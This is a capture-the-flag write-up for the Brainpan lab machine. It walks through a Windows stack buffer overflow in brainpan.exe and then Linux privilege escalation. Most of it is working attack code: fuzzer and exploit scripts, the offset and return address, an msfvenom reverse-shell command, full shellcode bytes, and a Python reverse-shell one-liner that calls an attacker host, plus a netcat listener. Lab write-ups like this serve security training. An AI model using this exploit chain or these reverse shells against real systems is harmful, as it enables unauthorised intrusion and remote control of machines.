# Brainpan


## Enumeration

### **Nmap Scan**:



### **Gobuster Scan**:



### **View /bin Directory Contents with curl**:



Now we just need to get the executable downloaded so we can start working on analysis locally. 
### **Download brainpan.exe with wget**:





## Analysis

I transferred the exe to my Flare VM so I can debug with x32dbg.
I started by running a fuzzer against the application until it crashed. 

**fuzzer.py example**:

```python
import socket
import time

# Target details
target_ip = "flare_vm_ip" #change to your local ip where debugger is running "brainpan.exe"
target_port = 9999

# Incrementing range
start_length = 300
end_length = 5000  # Test up to 'x' bytes
step = 100  # Increment by 'x' bytes

for length in range(start_length, end_length + 1, step):
    try:
        # Create payload of incrementing size
        payload = b"A" * length

        print(f"Sending payload of {length} bytes...")
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(5)
            s.connect((target_ip, target_port))
            s.send(payload + b"\r\n")  # Ensure proper line ending

            # Receive response (if any)
            response = s.recv(1024)
            print(f"Response: {response.decode(errors='ignore')}")

        print(f"Sent {length} bytes. Restart the target program and press Enter to continue...")
        input()  # Pause for manual restart of the program

    except Exception as e:
        print(f"Failed with {length} bytes: {e}")
        break
```

With this semi-automated script, you will have to press "**ctrl + F2**" in x32dbg to restart the program between each payload until one of the payloads causes the program to crash. 




Creating cyclic pattern using python and Pwntools:

```shell
python3 -c "from pwn import *; print(cyclic(600).decode())"
```

Add pattern to your fuzzing script:

```python
import socket
import sys
import time

# Target information
ip = "target_IP"  # Replace with the target IP
port = 9999           # Target port

# Full cyclic pattern (paste the entire pattern generated with Pwntools)
pattern = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf'

# Attempt to send the full pattern
try:
    # Establish a connection to the target
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, port))

        # Send the cyclic pattern
        print(f"Sending payload of {len(pattern)} bytes...")
        s.send(pattern + b'\r\n')  # Send the full pattern with a newline at the end
        time.sleep(1)  # Allow time for the server to process

        # Optionally receive response (for debugging)
        response = s.recv(1024)
        print(f"Received response: {response.decode(errors='ignore')}")

except socket.timeout:
    print("Connection timed out! The service might be unresponsive.")
except Exception as e:
    # Handle the crash
    print(f"Error occurred: {e}")
    print("The service likely crashed. Check the EIP register for the offset!")
    sys.exit(0)

```

Send fuzzing script:

```shell
python3 fuzzer.py
```

Crashing with pwntools cyclic pattern:



Finding the offset using python and Pwntools

```shell
python3 -c "from pwn import *; print(cyclic_find(0x66616167))"
524
```

Modify the fuzzing script to verify the offset:

```python
offset = 524
overflow = b'A' * offset
#Used to verify offset
padding = b'BBBB'
# Construct the buffer
buffer = overflow + padding #change "pattern" in send line to "buffer"
```

Verifying the offset:




## Badchars

Get a list of badchars using python:

```python
>>> badchars = ''.join('\\x{:02x}'.format(x) for x in range(1, 256) if x not in (0x00, 0x0a, 0x0d))
>>> print(badchars)
```


Update your script's payload to send the list of badchars:

```python
import socket
ip = '192.168.190.3'
port = 9999             #Target port service is running on

offset = 524
overflow = b'A' * offset

#Leave empty until you verify badchars and find valid jmp esp
retn = b''

#Used to verify offset
padding = b''
#Used for actual exploit padding
#padding = b'\x90' * 16

#Find badchars by using following as "payload"
#badchars = b"".join([bytes([x]) for x in range(1, 256) if x not in [0x00, 0x0A, 0x0D]])
#payload = badchars 

payload = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'

#encoded_payload = payload.encode('latin1')

# Construct the buffer
buffer = overflow + retn + padding + payload
try:
    # Connect to the target
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))

    # Send the buffer
    print(f"Sending buffer of {len(buffer)} bytes...")
    s.send(buffer + b'\r\n')  # Add the line ending required by the program
    print("Buffer sent!")

    # Optional: Receive server response
    response = s.recv(1024)
    print(f"Server response: {response.decode(errors='ignore')}")

    s.close()

except Exception as e:
    print(f"Could not connect to the target: {e}")


```


As you can see, the pattern starting at the indicated ESP address is unbroken/ altered. 



## Finding a valid JMP address

Now we need to find the JMP ESP



Search for --> All Modules --> Command






Convert from Big Endian to Little Endian:

```
Big Endian: 311712F3
Little Endian: \xf3\x12\x17\x31
```


Update your script with the new return address:

```python
retn = b'\xf3\x12\x17\x31'
```

Create your payload:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.10 LPORT=4445 -b '\x00\x0a\x0d' EXITFUNC=thread -f python | grep -oP '(?<=b").*(?=")' | tr -d '\n' | awk '{print "payload = b\"" $0 "\""}'
```

Update your script's payload with the generated shellcode:

```python
payload = b'\xbe\x3f\x26\xe4\xd4\xda\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x52\x83\xea\xfc\x31\x72\x0e\x03\x4d\x28\x06\x21\x4d\xdc\x44\xca\xad\x1d\x29\x42\x48\x2c\x69\x30\x19\x1f\x59\x32\x4f\xac\x12\x16\x7b\x27\x56\xbf\x8c\x80\xdd\x99\xa3\x11\x4d\xd9\xa2\x91\x8c\x0e\x04\xab\x5e\x43\x45\xec\x83\xae\x17\xa5\xc8\x1d\x87\xc2\x85\x9d\x2c\x98\x08\xa6\xd1\x69\x2a\x87\x44\xe1\x75\x07\x67\x26\x0e\x0e\x7f\x2b\x2b\xd8\xf4\x9f\xc7\xdb\xdc\xd1\x28\x77\x21\xde\xda\x89\x66\xd9\x04\xfc\x9e\x19\xb8\x07\x65\x63\x66\x8d\x7d\xc3\xed\x35\x59\xf5\x22\xa3\x2a\xf9\x8f\xa7\x74\x1e\x11\x6b\x0f\x1a\x9a\x8a\xdf\xaa\xd8\xa8\xfb\xf7\xbb\xd1\x5a\x52\x6d\xed\xbc\x3d\xd2\x4b\xb7\xd0\x07\xe6\x9a\xbc\xe4\xcb\x24\x3d\x63\x5b\x57\x0f\x2c\xf7\xff\x23\xa5\xd1\xf8\x44\x9c\xa6\x96\xba\x1f\xd7\xbf\x78\x4b\x87\xd7\xa9\xf4\x4c\x27\x55\x21\xc2\x77\xf9\x9a\xa3\x27\xb9\x4a\x4c\x2d\x36\xb4\x6c\x4e\x9c\xdd\x07\xb5\x77\x6d\x23\x69\x11\x19\xce\x91\x0f\x87\x47\x77\x45\x27\x0e\x20\xf2\xde\x0b\xba\x63\x1e\x86\xc7\xa4\x94\x25\x38\x6a\x5d\x43\x2a\x1b\xad\x1e\x10\x8a\xb2\xb4\x3c\x50\x20\x53\xbc\x1f\x59\xcc\xeb\x48\xaf\x05\x79\x65\x96\xbf\x9f\x74\x4e\x87\x1b\xa3\xb3\x06\xa2\x26\x8f\x2c\xb4\xfe\x10\x69\xe0\xae\x46\x27\x5e\x09\x31\x89\x08\xc3\xee\x43\xdc\x92\xdc\x53\x9a\x9a\x08\x22\x42\x2a\xe5\x73\x7d\x83\x61\x74\x06\xf9\x11\x7b\xdd\xb9\x32\x9e\xf7\xb7\xda\x07\x92\x75\x87\xb7\x49\xb9\xbe\x3b\x7b\x42\x45\x23\x0e\x47\x01\xe3\xe3\x35\x1a\x86\x03\xe9\x1b\x83'
```


## Privilege Escalation

Attempt to stabilize the shell and then run `/usr/bin/ sudo -l`



Creating a better shell:

```bash
echo import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attack_machine_IP",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); > shell1.py
```

Start a listener on attack machine:

```shell
nc -lvnp 4445
```

Start reverse shell with your python script:



Received connection --> escalate with /home/anansi/bin/anansi_util file:



